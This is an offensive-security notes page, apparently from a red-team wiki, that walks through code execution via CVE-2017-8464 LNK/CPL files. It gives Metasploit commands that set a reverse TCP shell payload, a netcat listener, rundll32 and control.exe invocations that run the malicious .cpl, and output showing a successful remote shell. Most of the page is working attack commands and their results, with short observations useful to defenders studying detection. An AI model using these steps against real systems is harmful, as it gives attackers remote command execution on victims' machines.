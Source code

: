 # LNK Shortcut Code Execution

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker" %}
```bash
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can see that the .cpl is simply a DLL with DllMain function exported:

![](../.gitbook/assets/lnk-dllmain%20%281%29.png)

A quick look at the dissasemble of the dll suggests rundll32 will be spawned and thread code injection may take place:

![](../.gitbook/assets/lnk-dissasm.png)

{% code-tabs %}
{% code-tabs-item title="victim" %}
```bash
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker" %}
```text
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note how rundll32 spawns a command prompt and establishes a connection back to the attacker:

![](../.gitbook/assets/lnk-connection.png)

